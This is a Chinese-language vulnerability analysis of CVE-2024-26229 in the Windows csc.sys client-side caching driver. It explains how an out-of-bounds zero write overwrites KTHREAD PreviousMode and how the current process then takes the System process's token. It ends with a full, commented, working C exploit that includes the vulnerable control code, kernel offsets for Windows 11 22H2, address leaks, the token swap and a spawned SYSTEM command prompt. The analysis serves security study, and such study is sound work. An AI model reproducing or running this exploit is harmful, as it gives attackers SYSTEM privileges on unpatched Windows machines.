

## 前言

该漏洞利用Windows CSC驱动程序存在的问题，进行越界写0修改KTHREAD结构中的PreviousMode字段，使其为KernelMode。这样，后续的写操作不会进行权限检查，从而允许我们修改内核数据结构，实现任意地址写入。
通过任意地址写入操作，我们可以将当前进程的Token字段替换为系统进程的Token字段。这样当前进程就能够获得系统进程的权限，从而实现提权。

其流程图可简化如下：


## 漏洞分析

### 如何实现越界写0

#### CSC驱动

csc.sys驱动是一个处理客户端缓存（Client-Side Caching）和提供离线文件功能的系统驱动（windows默认启用）。csc.sys允许用户在断网的情况下继续访问和操作网络文件，当用户在没有网络连接的情况下对这些文件进行更改时，这些更改首先影响的是本地缓存的副本；一旦网络连接恢复，CSC.sys 会负责将这些本地更改同步回网络位置，确保网络上的数据与本地的副本保持一致。

#### `NtFsControlFile`引发的写0漏洞

Windows在涉及与内核通信的时候，会使用一种叫做`IRP(I/O Request Package)`的IO数据包，将用户态的必要数据带入到内核态，再有内核态进行处理后返回。这个IRP可以注册多种处理，包括常见的文件读写，创建等等。其中当为了能够直接与特定类型设备通信的时候，会在内核态注册一种叫做`IRP_MJ_DEVICE_CONTROL`的调用函数，此时用户态可通过`DeviceIOCoontrol`与其通信。类似的，当操作涉及文件系统的时候，通常会注册针对文件系统的`IRP_MJ_FILE_SYSTEM_CONTROL`，此时与设备通信的时候就会用到`NtFsControlFile`。
此函数的描述如下：

```cpp
NtFsControlFile(
  IN HANDLE               FileHandle,
  IN HANDLE               Event OPTIONAL,
  IN PIO_APC_ROUTINE      ApcRoutine OPTIONAL,
  IN PVOID                ApcContext OPTIONAL,
  OUT PIO_STATUS_BLOCK    IoStatusBlock,
  IN ULONG                FsControlCode,
  IN PVOID                InputBuffer OPTIONAL,
  IN ULONG                InputBufferLength,
  OUT PVOID               OutputBuffer OPTIONAL,
  IN ULONG                OutputBufferLength
);
```

其中介绍几个比较重要的参数：

- FileHandle：指向打开的设备句柄
- IoStatusBlock：指向IO操作结果的指针
- FSControlCode：用于描述访问结构的ControlCode，类似于IOCTL
- InputBuffer：用户输入数据的指针地址
- InputBufferLength：用户输入数据的长度
- OutputBuffer：用户输出数据的指针地址
- OutputBufferLength：用户输出数据的长度

*实际上严格来说FSCTL与IOCTL非常相似，尤其是从数据传输角度来说，从[官方文档](https://learn.microsoft.com/zh-cn/windows/win32/fileio/file-management-control-codes?redirectedfrom=MSDN)来看，用户态对这两种过程使用过程应当是大差不差的*

当进行这几种直接通信的过程时候，用户通常可以直接从用户态传入两段内存地址，用于存储输入和输出。


这个函数中有一个指针`Type3InputBuffer`，他指向由用户态传入`NtFsControlFile`的指针`InputBuffer`，并且该指针**完全不被内核解析处理**。这样一来，指针指向的地址是否合法，以及指针内容的大小均不被检查，所以此处的指针**可以写入任意地址中**。总结一下，漏洞即为由于对指针使用检查不严谨，导致了一个**可以往用户可控内存地址写入0**的漏洞出现。

#### `KernelMode`和`UserMode`
PreviousMode 通常是 KTHREAD 结构的一部分，在 Windows 内核的头文件中，PreviousMode 通常被定义为 MODE 枚举类型，数据结构如下图所示：

在 Windows 内核中，`PreviousMode`用于标识线程最后一次执行的模式。这个字段有两个值：

1. PreviousMode = UserMode (1)

- 当线程从用户模式调用系统服务（如通过 `Nt` 或 `Zw` 前缀的函数）进入内核模式时，`PreviousMode` 被设置为 `UserMode`。这表明调用来源于用户空间，并且是在用户态下发起的系统调用。在用户模式下，应用程序受到更多的限制和安全检查。

1. PreviousMode = KernelMode (0)

- 当线程已经在内核模式下执行，并且调用内核模式的例程或函数时，`PreviousMode` 保持为 `KernelMode`。这表明操作是在内核空间内部进行的。
- **在内核模式下，代码具有完全的系统访问权限，也就是我们提权的关键。**


### 修改进程字段
#### `NtReadVirtualMemory`和`NtWriteVirtualMemory`

在2018年的Bluehat上，[Kaspersky研究员提出了一种很有趣的利用技巧](https://query.prod.cms.rt.microsoft.com/cms/api/am/binary/RE375Xk)，对于`NtReadVirtualMemory`和`NtWriteVirtualMemory`这类函数，在`PreviouseMode`为UserMode的时候，它会检查当前访问的地址空间是否为用户态可访问的空间，但当`PreviouseMode`为`KernelMode`的时候，并不会进行这类检查

```cpp
__int64 __fastcall MiReadWriteVirtualMemory(
        ULONG_PTR BugCheckParameter1,
        unsigned __int64 baseAddr,
        unsigned __int64 Buffer,
        __int64 NumberOfBytesToOp,
        unsigned __int64 a5,
        unsigned int a6)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  v7 = baseAddr;
  CurrentThread = KeGetCurrentThread();
  PreviousMode = CurrentThread->PreviousMode;
  v23 = PreviousMode;
  if ( PreviousMode )
  {
    if ( baseAddr + NumberOfBytesToOp < baseAddr
      || baseAddr + NumberOfBytesToOp > 0x7FFFFFFF0000i64
      || NumberOfBytesToOp + Buffer < Buffer
      || NumberOfBytesToOp + Buffer > 0x7FFFFFFF0000i64 )
    {
      return 0xC0000005i64;
    }
    // skip other code
  }
}
```

也就是说，当我们能够想办法将当前线程的`PreviouseMode`值为0的时候，我们即可绕过内存地址检查，直接调用`NtReadVirtualMemory`或者`NtWriteVirtualMemory`实现真正意义的任意地址写

#### 最终的攻击

当我们能够实现任意地址写，即可配合[这个github中提到的Windows常见泄露技巧](https://github.com/sam-b/windows_kernel_address_leaks/tree/master)，尝试泄露敏感进程（System进程）的Token，并且将该Token写入我们当前进程，即可实现提权。

这边结合[公开的脚本](https://github.com/varwara/CVE-2024-26229/blob/main/CVE-2024-26229.c)分析一下利用流程

1. 首先利用由`NtQuerySystemInformation`封装的函数`GetObjPtr`泄露System进程的`EPROCESS`以及当前线程的`ETHREAD`：

```cpp
GetObjPtr(&Sysproc, 4, 4); // 泄露System EPROCESS，准备从这边获取token

Ret = GetObjPtr(&Curthread, GetCurrentProcessId(), hThread); // 获取当前线程ETHREAD，进行PreviousMode替换

hCurproc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, GetCurrentProcessId()); // 泄露当前进程的EPROCESS，准备替换token
```

2. 触发漏洞，将当前线程PreviousMode改写成0

```cpp
status = NtFsControlFile(handle, NULL, NULL, NULL, &iosb, CSC_DEV_FCB_XXX_CONTROL_FILE, /*Vuln arg*/ (void*)(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET - 0x18), 0, NULL, 0);
if (!NT_SUCCESS(status))
{
    printf("[-] NtFsControlFile failed with status = %x\n", status);
    return status;
}
```

3. 此时，可以实现往内核地址的读写，将System进程Token地址拷贝到当前进程

```cpp
Write64(Curproc + EPROCESS_TOKEN_OFFSET, Sysproc + EPROCESS_TOKEN_OFFSET, 0x8);
```

4. 恢复PreviousMode，此时该进程完成提权

```cpp
//
// Restoring KTHREAD->PreviousMode
//
Write64(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET, &mode, 0x1);

//
// spawn the shell with "nt authority\system"
//

system("cmd.exe");
```

其流程可以大致表示为下图：



### POC分析

``````cpp
/*
                完整注释版本
-------------------------------------------
漏洞编号:      CVE-2024-26229
环境:          Windows 11 22h2 Build 22621
漏洞类型:      本地提权 (LPE)
目标组件:      csc.sys 驱动程序
利用原理:      利用IOCTL处理不当导致的越界写,修改KTHREAD->PreviousMode,
               随后执行DKOM替换进程令牌获取SYSTEM权限
-------------------------------------------
*/
#include <Windows.h>      // Windows API核心头文件
#include <stdio.h>        // 标准输入输出
#include <winternl.h>     // 访问Windows NT内部API
#include <stdint.h>       // 固定宽度整数类型

// 使用WDK中的ntdllp.lib私有库来直接调用Nt函数,避免使用GetProcAddress动态查找
#pragma comment(lib, "ntdllp.lib")
#define STATUS_SUCCESS 0  // NT_SUCCESS宏使用的成功状态码

// 定义当前进程的伪句柄(-1)
#define NtCurrentProcess() ((HANDLE)(LONG_PTR)-1)

// 内核结构偏移量
#define EPROCESS_TOKEN_OFFSET                   0x4B8  // EPROCESS结构中Token字段的偏移量
#define KTHREAD_PREVIOUS_MODE_OFFSET            0x232  // KTHREAD结构中PreviousMode字段的偏移量

// 漏洞利用的关键IOCTL代码
#define CSC_DEV_FCB_XXX_CONTROL_FILE            0x001401a3  // csc.sys驱动程序中存在漏洞的IOCTL控制码

// 系统信息类型常量
#define SystemHandleInformation                 0x10       // 用于查询系统句柄信息
#define SystemHandleInformationSize             0x400000   // 系统句柄信息的缓冲区大小

// 处理器模式枚举
enum _MODE
{
    KernelMode = 0,  // 内核模式(特权级别0)
    UserMode = 1     // 用户模式(特权级别3)
};

// 系统句柄表条目结构,用于NtQuerySystemInformation API
typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO
{
    USHORT UniqueProcessId;       // 拥有此句柄的进程ID
    USHORT CreatorBackTraceIndex; // 创建回溯索引
    UCHAR ObjectTypeIndex;        // 对象类型索引
    UCHAR HandleAttributes;       // 句柄属性
    USHORT HandleValue;           // 实际句柄值
    PVOID Object;                 // 内核中对象的地址(关键字段)
    ULONG GrantedAccess;          // 授予的访问权限
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, *PSYSTEM_HANDLE_TABLE_ENTRY_INFO;

// 系统句柄信息结构
typedef struct _SYSTEM_HANDLE_INFORMATION
{
    ULONG NumberOfHandles;                    // 系统中总句柄数
    SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1]; // 可变长度的句柄数组
} SYSTEM_HANDLE_INFORMATION, *PSYSTEM_HANDLE_INFORMATION;


/**
 * @brief 通过进程ID和句柄值获取内核对象指针地址
 * 
 * @param ppObjAddr [输出] 存储获取到的对象地址
 * @param ulPid 目标进程ID
 * @param handle 目标句柄
 * @return int32_t 成功返回0,失败返回错误代码
 */
int32_t GetObjPtr(_Out_ PULONG64 ppObjAddr, _In_ ULONG ulPid, _In_ HANDLE handle)
{
    int32_t Ret = -1;
    PSYSTEM_HANDLE_INFORMATION pHandleInfo = 0;
    ULONG ulBytes = 0;
    NTSTATUS Status = STATUS_SUCCESS;

    //
    // 处理堆分配以应对STATUS_INFO_LENGTH_MISMATCH错误
    // NtQuerySystemInformation可能会因缓冲区太小而失败
    //
    while ((Status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemHandleInformation, pHandleInfo, ulBytes, &ulBytes)) == 0xC0000004L)
    {
        if (pHandleInfo != NULL)
        {
            // 如果已有分配,则扩大缓冲区
            pHandleInfo = (PSYSTEM_HANDLE_INFORMATION)HeapReAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, pHandleInfo, (size_t)2 * ulBytes);
        }
        else
        {
            // 首次分配缓冲区
            pHandleInfo = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (size_t)2 * ulBytes);
        }
    }

    if (Status != NULL)
    {
        Ret = Status;
        goto done;
    }

    // 遍历所有句柄,查找匹配指定进程ID和句柄值的条目
    for (ULONG i = 0; i < pHandleInfo->NumberOfHandles; i++)
    {
        if ((pHandleInfo->Handles[i].UniqueProcessId == ulPid) && (pHandleInfo->Handles[i].HandleValue == (unsigned short)handle))
        {
            // 找到匹配项,获取内核对象地址
            *ppObjAddr = (unsigned long long)pHandleInfo->Handles[i].Object;
            Ret = 0;
            break;
        }
    }

done:
    // 清理资源
    if (pHandleInfo != NULL)
    {
        HeapFree(GetProcessHeap, 0, pHandleInfo);
    }
    return Ret;
}

/**
 * @brief 封装函数,实现向任意系统内存地址写入数据
 * 
 * @param Dst 目标地址
 * @param Src 源数据地址
 * @param Size 写入字节数
 * @return NTSTATUS 操作状态
 */
NTSTATUS Write64(_In_ uintptr_t *Dst, _In_ uintptr_t *Src, _In_ size_t Size)
{
    NTSTATUS Status = 0;
    size_t cbNumOfBytesWrite = 0;

    // 关键利用点:利用被修改的PreviousMode,让NtWriteVirtualMemory能够写入内核内存
    // 正常情况下,用户态程序无法向内核内存写入数据
    Status = NtWriteVirtualMemory(GetCurrentProcess(), Dst, Src, Size, &cbNumOfBytesWrite);
    if (!NT_SUCCESS(Status)) 
    {
        return -1;
    }
    return Status;
}

/**
 * @brief 主要漏洞利用函数
 * 
 * @return NTSTATUS 
 */
NTSTATUS Exploit()
{
    UNICODE_STRING  objectName = { 0 };
    OBJECT_ATTRIBUTES objectAttr = { 0 };
    IO_STATUS_BLOCK iosb = { 0 };
    HANDLE handle;
    NTSTATUS status = 0;

    //
    // 初始化需要泄露的内核对象地址
    //
    uintptr_t Sysproc = 0;    // System进程的EPROCESS地址
    uintptr_t Curproc = 0;    // 当前进程的EPROCESS地址
    uintptr_t Curthread = 0;  // 当前线程的KTHREAD地址
    uintptr_t Token = 0;      // 令牌地址(未使用)

    HANDLE hCurproc = 0;      // 当前进程句柄
    HANDLE hThread = 0;       // 当前线程句柄
    uint32_t Ret = 0;         // 返回值
    uint8_t mode = UserMode;  // 用于恢复KTHREAD->PreviousMode的值

    // 初始化指向漏洞驱动路径的Unicode字符串
    // "\Device\Mup\;Csc\.\.\" 指向CSC(Client Side Caching)组件
    RtlInitUnicodeString(&objectName, L"\\Device\\Mup\\;Csc\\.\\."); 
    InitializeObjectAttributes(&objectAttr, &objectName, 0, NULL, NULL);
    
    // 创建连接到易受攻击驱动程序的文件句柄
    status = NtCreateFile(&handle, SYNCHRONIZE, &objectAttr, &iosb, NULL, FILE_ATTRIBUTE_NORMAL, 
                         0, FILE_OPEN_IF, FILE_CREATE_TREE_CONNECTION, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        printf("[-] NtCreateFile failed with status = %x\n", status);
        return status;
    }

    //
    // 泄露System进程(PID 4)的_EPROCESS内核地址
    // 使用句柄4来获取System进程对象地址
    // 
    Ret = GetObjPtr(&Sysproc, 4, 4);
    if (Ret != NULL)
    {
        return Ret;
    }
    printf("[+] System EPROCESS address = %llx\n", Sysproc);

    //
    // 泄露当前_KTHREAD内核地址
    // 打开当前线程获取句柄,然后通过句柄获取内核对象地址
    //
    hThread = OpenThread(THREAD_QUERY_INFORMATION, TRUE, GetCurrentThreadId());
    if (hThread != NULL)
    {
        Ret = GetObjPtr(&Curthread, GetCurrentProcessId(), hThread);
        if (Ret != NULL)
        {
            return Ret;
        }
        printf("[+] Current THREAD address = %llx\n", Curthread);
    }

    //
    // 泄露当前_EPROCESS内核地址
    // 打开当前进程获取句柄,然后通过句柄获取内核对象地址
    //
    hCurproc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, GetCurrentProcessId());
    if (hCurproc != NULL)
    {
        Ret = GetObjPtr(&Curproc, GetCurrentProcessId(), hCurproc);
        if (Ret != NULL)
        {
            return Ret;
        }
        printf("[+] Current EPROCESS address = %llx\n", Curproc);
    }

    //
    // 发送载荷触发漏洞
    // 利用易受攻击的IOCTL,传入特定偏移的地址(KTHREAD.PreviousMode-0x18)
    // 当驱动处理此IOCTL时,会错误地向计算出的位置写入数据
    // 这将覆盖KTHREAD.PreviousMode,使其变为0(KernelMode)
    //
    status = NtFsControlFile(handle, NULL, NULL, NULL, &iosb, CSC_DEV_FCB_XXX_CONTROL_FILE, 
                           /*关键参数*/ (void*)(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET - 0x18), 0, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        printf("[-] NtFsControlFile failed with status = %x\n", status);
        return status;
    }

    printf("[!] Leveraging DKOM to achieve LPE\n");
    printf("[!] Calling Write64 wrapper to overwrite current EPROCESS->Token\n");
    
    // DKOM操作:用System进程的Token覆盖当前进程的Token
    // 因为PreviousMode已被设为0(KernelMode),所以我们可以写入内核内存
    Write64(Curproc + EPROCESS_TOKEN_OFFSET, Sysproc + EPROCESS_TOKEN_OFFSET, 0x8);

    //
    // 恢复KTHREAD->PreviousMode为UserMode
    // 如不恢复,系统可能因为特权检查异常而崩溃
    //
    Write64(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET, &mode, 0x1);

    //
    // 启动具有"NT AUTHORITY\SYSTEM"权限的命令提示符
    // 此时当前进程已拥有System权限
    //
    system("cmd.exe");

    return STATUS_SUCCESS;
}

/**
 * @brief 主函数
 * 
 * @return int 程序退出状态码
 */
int main()
{
    NTSTATUS status = 0;
    status = Exploit();  // 执行漏洞利用过程

    return status;
}

``````

